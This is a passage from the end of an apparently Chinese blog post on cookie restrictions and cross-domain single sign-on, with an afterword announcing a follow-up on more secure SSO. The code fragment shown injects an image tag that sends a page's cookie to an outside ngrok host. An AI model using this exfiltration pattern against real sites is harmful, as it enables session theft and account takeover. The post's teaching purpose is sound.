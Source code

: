```javascript
            var img = document.createElement("img")
            img.src = "https://d698d280.ngrok.io?a=" + event.data.cookie
            document.body.append(img)
        })</script>
    `)
})
app.listen(3000)
```

## 後記

先以不同 domain 的方式配合 cookie 讓大家知道 cookie 的受限程度  
接下來第二篇著重的重點在於不同 domain 的 SSO  
第二篇就會介紹如何用別的機制去實現更好更安全的 SSO  

## Reference 

1. [全面介绍SSO（单点登录](https://juejin.im/post/5de46d28e51d4532c21facb3)
